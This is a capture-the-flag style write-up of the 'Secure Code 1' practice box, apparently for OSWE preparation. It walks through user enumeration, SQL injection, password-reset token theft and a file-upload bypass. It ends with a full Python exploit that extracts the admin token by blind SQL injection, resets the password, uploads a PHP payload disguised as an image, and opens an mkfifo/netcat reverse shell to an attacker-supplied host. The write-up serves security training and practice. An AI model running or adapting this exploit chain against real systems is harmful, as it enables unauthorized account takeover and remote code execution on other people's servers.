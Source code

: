 # Secure Code 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 19:47 WEST
Nmap scan report for 10.0.2.38
Host is up (0.0017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/login/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Coming Soon 2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.44 seconds
````

## Port 80

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/459d18e5-e73f-4c61-960b-0970c69c9730)

The homepage is a simple static page, but the /login endpoint has... a login form :)

GoBuster found the /include/ directory, which seems like it has some interesting files, but I can't open any of them. Maybe futue LFI?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e136aa6c-b53e-4471-8b96-91e4219f90f2)


Using the reset password form allows us to enumerate users. Found:

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/c7b31c20-abc8-44b0-824b-3c52aaed84d8)

Not found:

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/acab704b-d5ad-4776-863f-ceab0ca83313)

So I have the username "admin". But still I'm at a loss... 

I needed a hint for this one, and I guess I was missing the file source_code.zip at the root

## Code review time!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/c311140b-da21-465a-9039-b0ca7bce8c37)


Time to read some code. After analyzing every file, there was one that was still under construction. It doesn't include the isAuthenticated.php file, so let's try accessing items in an IDOR kind of way

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/7c72828b-44a4-4241-8d36-ce51a6b0e2a1)

Some are not found

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6cf72973-283a-478e-942d-c8d68af83c53)


Others are found

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3f2cacbe-e86c-49d2-a2b0-1c2d8e2eb7be)


It doesn't seem like it's protected against SQLi, so I ran sqlmap and got a hit

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/34a15de2-16ab-4a08-975c-b4d0fb35b581)

Let's enumerate the table and dump the interesting bits (i cut a lot of screenshots here)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/69ed6338-bd29-47ca-ac7e-a30297a13de6)


The passwords are not accessible, but the tokens are. Let's see how we can change the admin's password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/0deefe81-5643-4bbc-8e28-330683544bf5)


Okay, so let's add the token we dumped from the db and change the password to 'admin'

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a1d9d193-d45e-4812-ac07-ece1cc42db28)



## Reverse Shell

I'm finally logged in as admin!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9a2f9c46-778e-42c3-9e99-b45f0b3e92f4)

In the "Items" tab there's a form to upload files

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/912c7d03-92fb-435c-9153-4f2556f20101)


Hmm hard to bypass, but we have the source for this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d5db092b-4b60-4e94-85cd-c4123393c92f)


Finally got a shell with the .phar extension. Yes I mistyped shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/539eb0f6-29c5-4f84-8eed-364a50e87c77)


mkfifo worked for a reverse shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/0962534f-4b4c-4e9e-b436-8f3f073828bb)


And that's the end of the box, no root for this.
I might revisit this and write full one click exploits in python. Seems like good practice for the OSWE

___

A few weeks later I'm here again. This one was pretty hard, but here's the one click exploit

````
import sys, requests

def main():
	session = requests.Session()
	token = ''
	# Request a token
	url = server + "/login/resetPassword.php"
	data = "username=admin"
	s = requests.Session()
	headers = {"Content-Type":"application/x-www-form-urlencoded"}
	s.post(url,data, headers=headers)

	url = server + "/item/viewItem.php"
	# Blind, time based SQLi to extract password reset token
	for digit in range(1,17):
			for char in range(1, 150):
				param = {"id": "1 and ascii(substr((select token from user where id = 1)," + str(digit) + ",1)) = " + str(char) + " -- -" }
				s = requests.Session()
				x = s.get(url, params=param, allow_redirects=False)
				if x.status_code == 404:
					token = token + str(chr(char))
	print("\n"+"\n"+"[*] Admin Token : " + token)

	# Request password change to 'admin'
	url = server + "/login/doChangePassword.php?token="+token+"&password=pwd"
	print("\n"+"\n"+"[*] Resetting password @ "+ url + " ...")
	s.get(url)

	# Login
	s.cookies.clear()
	url = server + "/login/checkLogin.php"
	data = "username=admin&password=pwd"
	headers = {"Content-Type":"application/x-www-form-urlencoded"}
	s.post(url, data=data, headers=headers)

	# Upload shell
	url = server + "/item/newItem.php"
	files = {'id_user': (None, '1'), 'name': (None, 'rce'), 'image': ('rce.phar', 'GIF89a; <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc '+attacker+' '+port+' >/tmp/f"); ?>', 'image/png'), 'description': (None, 'rce'), 'price': (None, '1')}
	s.post(url, files=files, cookies=s.cookies)

	# RCE
	url = server + "/item/image/rce.phar"
	s.get(url)

if __name__ == '__main__':
	try:
		server = sys.argv[1].strip()
		attacker = sys.argv[2].strip()
		port = sys.argv[3].strip()
	except:
		print("[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0])
		sys.exit()
	print("Don't forget to open the listener on port {}!".format(port))
	main()
````
